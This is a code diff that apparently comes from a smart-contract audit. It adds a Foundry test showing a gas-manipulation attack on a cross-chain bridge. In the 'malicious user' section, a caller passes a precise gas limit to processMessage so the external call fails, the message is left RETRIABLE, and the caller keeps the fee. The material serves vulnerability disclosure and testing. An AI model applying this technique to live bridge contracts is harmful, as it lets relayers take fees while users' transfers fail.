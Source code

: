 ```diff
+    function test_t0x1c_gasManipulation() public {
+        //**************** SETUP **********************
+        ToContract toContract = new ToContract();
+        IBridge.Message memory message = IBridge.Message({
+            id: 0,
+            from: address(bridge),
+            srcChainId: uint64(block.chainid),
+            destChainId: destChainId,
+            srcOwner: Alice,
+            destOwner: Alice,
+            to: address(toContract),
+            refundTo: Alice,
+            value: 1000,
+            fee: 1000,
+            gasLimit: 11_000_000,
+            data: "",
+            memo: ""
+        });
+        // Mocking proof - but obviously it needs to be created in prod
+        // corresponding to the message
+        bytes memory proof = hex"00";
+
+        bytes32 msgHash = destChainBridge.hashMessage(message);
+
+        vm.chainId(destChainId);
+        skip(13 hours);
+        assertEq(destChainBridge.messageStatus(msgHash) == IBridge.Status.NEW, true);
+        uint256 carolInitialBalance = Carol.balance;
+
+        uint256 snapshot = vm.snapshot();
+        //**************** SETUP ENDS **********************
+
+
+
+        //**************** NORMAL USER **********************
+        console.log("\n**************** Normal User ****************");
+        vm.prank(Carol, Carol);
+        destChainBridge.processMessage(message, proof);
+
+        assertEq(destChainBridge.messageStatus(msgHash) == IBridge.Status.DONE, true);
+        assertEq(Carol.balance, carolInitialBalance + 1000, "Carol balance mismatch");
+        if (destChainBridge.messageStatus(msgHash) == IBridge.Status.DONE)
+            console.log("message status = DONE");
+
+
+
+        //**************** MALICIOUS USER **********************
+        vm.revertTo(snapshot);
+        console.log("\n**************** Malicious User ****************");
+        vm.prank(Carol, Carol);
+        destChainBridge.processMessage{gas: 10_897_060}(message, proof); // @audit-info : specify gas to force failure of excessively safe external call
+
+        assertEq(destChainBridge.messageStatus(msgHash) == IBridge.Status.RETRIABLE, true); // @audit : message now in RETRIABLE state. Carol receives the fee.
+        assertEq(Carol.balance, carolInitialBalance + 1000, "Carol balance mismatched");
+        if (destChainBridge.messageStatus(msgHash) == IBridge.Status.RETRIABLE)
+            console.log("message status = RETRIABLE");
+    }
+
     function test_Bridge_send_ether_to_to_with_value() public {
         IBridge.Message memory message = IBridge.Message({
             id: 0,
```